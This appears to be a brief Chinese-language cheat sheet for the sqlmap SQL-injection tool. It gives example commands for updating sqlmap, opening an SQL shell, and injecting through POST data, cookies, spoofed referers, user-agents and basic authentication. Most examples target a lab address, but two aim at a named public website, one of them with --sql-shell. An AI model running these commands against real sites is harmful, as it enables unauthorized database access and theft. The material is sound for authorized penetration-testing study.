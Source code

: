 ```yaml
---
title: "sqlmap简单中文说明"
id: csdn50695961
---
```


整理：mickey

更新

```
svn checkout https://svn.sqlmap.org/sqlmap/trunk/sqlmap sqlmap-dev
```

```
sqlmap.py -u "http://www.islamichina.com/hotelinchina.asp?cityid=2&m=1" -v 1 --sql-shell //执行SQL语句
```

```
sqlmap.py -u "http://www.islamichina.com/hotelinchina.asp?cityid=2&m=1" -v 5 //更详细的信息
```

load options from a configuration INI file

```
sqlmap -c sqlmap.conf
```

使用POST方法提交

```
sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/post_int.php" --method POST --data "id=1"
```

使用COOKIES方式提交,cookie的值用;分割,可以使用TamperData来抓cookies

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/cookie_int.php" --cookie "id=1" -v 1
```

使用referer欺骗

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --referer "http://www.google.com" -v 3
```

使用自定义user-agent,或者使用随机使用自带的user-agents.txt

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --user-agent "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)" -v 3
```

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 1 -a "./txt/user-agents.txt"
```

使用基本认证

```
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/basic/get_int.php?id=1" --auth-type Basic --auth-cred "testuser:testpass" -v 3
```
